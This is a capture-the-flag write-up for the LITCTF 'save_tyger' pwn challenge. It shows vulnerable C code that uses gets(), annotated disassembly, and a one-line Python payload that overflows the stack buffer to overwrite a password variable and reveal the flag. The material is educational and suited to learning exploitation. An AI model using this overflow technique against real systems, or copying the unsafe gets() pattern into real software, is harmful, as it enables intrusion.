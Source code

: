 # pwn/save_tyger

## Challenge

Can you save our one and only Tyger?
<br>
Connect with `nc litctf.live 31786`

[save_tyger.zip](https://drive.google.com/uc?export=download&id=1ePTPwUBKcNLESM2ev1IZEb3kL4SeTcn1)

## Solution

We're given a C file (and an executable):
```c
#include <stdlib.h>
#include <stdio.h>

char flag[64];

int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
		FILE *f = fopen("flag.txt", "r");
		if(f == NULL){
			printf("Something went wrong. Please let Eggag know.\n");
			exit(1);
		}
		fgets(flag, 64, f);
		puts(flag);
	}
	else printf("WE NEED HIM BAAACK!\n");
}
```
This is a classic problem.

We need to somehow overwrite `pass`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into `pass`. We now look in the executable (`objdump -d`) for where `buf` and `pass` are stored:
```
00000000000011c9 <main>:
    11c9:	f3 0f 1e fa          	endbr64 
    11cd:	55                   	push   %rbp
    11ce:	48 89 e5             	mov    %rsp,%rbp
    11d1:	48 83 ec 30          	sub    $0x30,%rsp
    11d5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp) <- pass = 0
    11dc:	00 
    11dd:	48 8d 3d 24 0e 00 00 	lea    0xe24(%rip),%rdi        # 2008 <_IO_stdin_used+0x8>
    11e4:	e8 a7 fe ff ff       	callq  1090 <puts@plt>
    11e9:	48 8d 3d 4b 0e 00 00 	lea    0xe4b(%rip),%rdi        # 203b <_IO_stdin_used+0x3b>
    11f0:	e8 9b fe ff ff       	callq  1090 <puts@plt>
    11f5:	48 8d 45 d0          	lea    -0x30(%rbp),%rax <- so this must be buf
    11f9:	48 89 c7             	mov    %rax,%rdi <- argument to gets (buf)
    11fc:	b8 00 00 00 00       	mov    $0x0,%eax
    1201:	e8 aa fe ff ff       	callq  10b0 <gets@plt>
```
`pass` is at stack frame (`%rbp`) minus `0x8`, while `buf` is at minus `0x30`.
That means they're a distance of `0x30 - 0x8 = `40 bytes apart,
so we need to send 40 junk characters, and then `ab aa ad ab` (little-endian).
We write code to produce the string, converting the hex representation of the bytes to chars:
```py
print("a"*40+"abaaadab".decode("hex"))
```
Pipe the output into the netcat command, and we get our flag.

## Flag

`LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}`
